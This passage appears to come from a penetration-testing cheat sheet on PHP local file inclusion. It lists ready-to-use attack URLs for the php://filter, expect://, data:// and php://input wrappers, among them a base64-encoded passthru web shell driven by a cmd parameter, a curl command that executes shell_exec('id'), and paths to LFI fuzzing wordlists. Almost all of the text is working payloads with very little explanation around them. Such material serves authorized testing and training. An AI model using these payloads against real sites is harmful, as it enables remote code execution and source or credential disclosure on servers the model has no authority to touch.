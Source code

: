 ```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=
```

##### Wrapper expect://

```
http://example.com/index.php?page=expect://id
```

##### Wrapper data://

```
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with
	- exec
	- shell_exec
	- system
	- passthru
	- popen

# Exemple
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls
```

##### Wrapper input://

```
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

#### Useful LFI list

```
# Linux
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

# Windows
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

# Both
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
```
